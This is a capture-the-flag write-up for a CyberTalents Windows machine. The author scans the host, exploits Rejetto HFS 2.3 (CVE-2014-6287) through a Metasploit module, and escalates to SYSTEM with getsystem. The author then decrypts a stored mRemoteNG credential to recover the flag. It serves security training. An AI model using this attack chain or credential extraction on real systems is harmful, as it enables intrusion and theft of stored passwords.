




# REMOTE — CyberTalents Write-up

## Challenge Information

| Field | Details |
|---|---|
| Platform | CyberTalents |
| Challenge | REMOTE |
| Category | Machines |
| Target OS | Windows |
| Initial Access | HFS 2.3 RCE |
| Privilege Escalation | SeImpersonatePrivilege |
| Credential Discovery | mRemoteNG |
| Final Objective | Recover the flag |

---

## 1. Introduction

REMOTE is a Windows machine challenge on CyberTalents that involves exploiting a vulnerable HTTP File Server (HFS), obtaining administrative access, escalating privileges, and recovering a flag stored within an application configuration file.

The challenge was particularly interesting because the flag was not directly accessible through the initial filesystem search. Instead, I had to investigate installed applications and discover stored credentials.

## 2. Reconnaissance

### Initial Nmap Scan

I started by scanning the target to identify open ports and running services.

```bash
nmap -sCV -Pn <TARGET-IP>
```

The scan revealed several Windows services:

| Port | Service | Description |
|---|---|---|
| 135/tcp | MSRPC | Microsoft RPC |
| 139/tcp | NetBIOS | NetBIOS Session Service |
| 445/tcp | SMB | Microsoft-DS |
| 3389/tcp | RDP | Remote Desktop |
| 5985/tcp | HTTP | Microsoft HTTPAPI |

The target was identified as a Windows machine.


### Investigating Port 1337

The challenge mentioned port 1337, so I decided to investigate it separately.

```bash
nmap -sCV -T4 <TARGET-IP> -p 1337
```

Initially, Nmap reported that the host appeared to be down. I retried with `-Pn` to skip host discovery.

```bash
nmap -sCV -T4 <TARGET-IP> -p 1337 -Pn
```

The result showed:

```text
1337/tcp filtered waste
```

Although the port appeared filtered, I decided to investigate it directly using curl.

```bash
curl -i http://<TARGET-IP>:1337
```

The HTTP response revealed:

```text
HTTP/1.1 200 OK
Server: HFS 2.3
Set-Cookie: HFS_SID=...
```

This identified the service as **Rejetto HTTP File Server (HFS) 2.3**.



## 3. Vulnerability Identification

After identifying HFS 2.3, I researched its known vulnerabilities.

I discovered that vulnerable versions of Rejetto HFS 2.3 are affected by a remote code execution vulnerability.

The Metasploit module associated with this vulnerability is:

```text
exploit/windows/http/rejetto_hfs_exec
```

This module exploits a command-injection vulnerability in vulnerable HFS versions to achieve remote code execution.

The vulnerability is commonly associated with:

- CVE-2014-6287
- Rejetto HFS 2.3
- Remote Code Execution (RCE)

## 4. Exploitation — Initial Access

I opened Metasploit and selected the discovered exploit.

```bash
msfconsole
```

```text
use exploit/windows/http/rejetto_hfs_exec
```

I configured the target and payload options according to my Kali network configuration, then executed the exploit.

The exploit successfully established a Meterpreter session.


### Initial Access Verification

After obtaining the Meterpreter session, I checked the current identity.

```text
meterpreter > getuid
```

The output showed:

```text
EC2AMAZ-G6R23LO\Administrator
```

This confirmed that my initial session already had Administrator privileges.

## 5. Privilege Escalation

Although I already had Administrator access, I investigated the available Windows privileges.

Inside the shell, I executed:

```cmd
whoami /priv
```

The output revealed:

```text
SeImpersonatePrivilege
```

with its state set to:

```text
Enabled
```

This privilege can be abused in certain Windows configurations to escalate privileges to SYSTEM.

I returned to Meterpreter and executed:

```text
meterpreter > getsystem -t 1
```

The command successfully elevated my privileges.




## 6. Post-Exploitation — Searching for the Flag

After obtaining elevated privileges, I started searching for the flag.

I used the following command to locate text files containing `flag` in their filenames:

```cmd
dir C:\*flag*.txt /s /b
```

The search returned:

```text
C:\Users\Administrator\Desktop\flag.txt
```

I opened the file:

```cmd
type C:\Users\Administrator\Desktop\flag.txt
```

However, the contents indicated:

```text
flag is not here but may be remotly
```

This was unexpected.

Rather than stopping there, I reconsidered the message and decided to search for applications or directories containing the word `remote`.

## 7. Discovering mRemoteNG

I searched recursively for directories containing `remote` in their names.

```cmd
for /d /r C:\ %i in (*remote*) do @echo %i
```




This led me to investigate **mRemoteNG**, a remote connection management application.

During my research, I discovered that mRemoteNG stores connection information and credentials in a configuration file named:

```text
confCons.xml
```

I searched for this file:

```cmd
dir /s /b C:\confCons\*
```

The file was located at:

```text
C:\Users\Administrator\AppData\Roaming\mRemoteNG\confCons.xml
```


## 8. Credential Extraction

I read the configuration file:

```cmd
type C:\Users\Administrator\AppData\Roaming\mRemoteNG\confCons.xml
```

The XML contained a stored connection credential.

The relevant attributes included:

```xml
Username="flag"
Password="..."
```

The password was encrypted rather than stored as plaintext.

I researched how mRemoteNG stores its credentials and discovered a Python decryption script on GitHub.

I downloaded the script to Kali and used it to decrypt the stored password.

```bash
python3 mremoteng_decrypt.py -s "<ENCRYPTED-PASSWORD>"
```

The script returned:

```text
Password: aw3s0m3_r3m0te_fl4g
```

This was the flag.





## 9. Flag

```text
aw3s0m3_r3m0te_fl4g
```


## 10. Lessons Learned

This challenge taught me several important penetration-testing concepts:

- Service enumeration can reveal vulnerable software even when a port initially appears filtered.
- Identifying software versions and researching their vulnerabilities is a critical part of exploitation.
- Windows privileges such as `SeImpersonatePrivilege` can provide opportunities for privilege escalation.
- Administrator access does not necessarily mean that the process is running as SYSTEM.
- Post-exploitation enumeration should include installed applications and their configuration files.
- Applications can store credentials that may be recoverable from configuration files.
- An unexpected flag message can provide a useful clue about the intended attack path.
- Credential recovery can be just as important as obtaining a shell.

## 10. Conclusion

REMOTE demonstrated a complete Windows exploitation workflow, starting with reconnaissance and ending with credential recovery.

By identifying a vulnerable HFS installation, exploiting it through Metasploit, escalating privileges, and investigating mRemoteNG configuration files, I successfully recovered the flag.

The most valuable lesson was that post-exploitation requires curiosity and systematic enumeration. The flag was not where I initially expected it to be, and discovering mRemoteNG was the key to completing the challenge.

